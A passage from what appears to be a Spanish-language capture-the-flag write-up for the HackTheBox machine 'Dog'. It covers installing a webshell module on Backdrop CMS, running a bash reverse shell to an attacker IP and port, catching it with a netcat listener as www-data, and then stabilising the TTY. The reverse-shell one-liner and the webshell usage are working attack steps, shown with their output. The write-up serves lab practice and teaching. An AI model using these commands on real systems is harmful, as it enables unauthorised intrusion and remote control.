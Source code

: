 Una vez, cargado, debemos hacer clic en `Install` (obviamente) para instalar el módulo. Una vez se haya completado la instalación, podremos acceder a la `webshell` a través de la siguiente URL

~~~ bash
http://dog.htb/modules/shell/shell.php
~~~

> Es posible que se elimine el módulo, entonces debes volver a instalarlo. Te aconsejo volver atrás desde esta pestaña hasta la sección de instalación manual
{: .notice--danger}

![image-center](/assets/images/posts/dog-backdrop-rce-2.png)
{: .align-center}

Ejecutaremos una reverse shell que enviará una consola interactiva a nuestra máquina atacante

> Recuerda iniciar un `listener` con `netcat` antes de ejecutar el siguiente comando en la web
{: .notice--warning}

~~~ bash
bash -c 'bash -i >& /dev/tcp/10.10.14.98/4444 0>&1'
~~~

Una vez ejecutemos la reverse shell, recibiremos una consola como el usuario `www-data`

~~~ bash
nc -lvnp 4444            
listening on [any] 4444 ...
connect to [10.10.14.98] from (UNKNOWN) [10.10.11.58] 60466
whoami
www-data
~~~


## TTY Treatment

Haremos un pequeño tratamiento para obtener una consola más interactiva, debido a que si presionamos `Ctrl + C`, la shell se nos va pal carajo

~~~

script /dev/null -c bash
Script started, file is /dev/null
sh: 0: getcwd() failed: No such file or directory
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
www-data@dog:$ ^Z
[1]  + 249411 suspended  nc -lvnp 4444
root@parrot exploits # stty raw -echo; fg
[1]  + 249411 continued  nc -lvnp 4444
                                      reset xterm
www-data@dog:$ export TERM=xterm
~~~
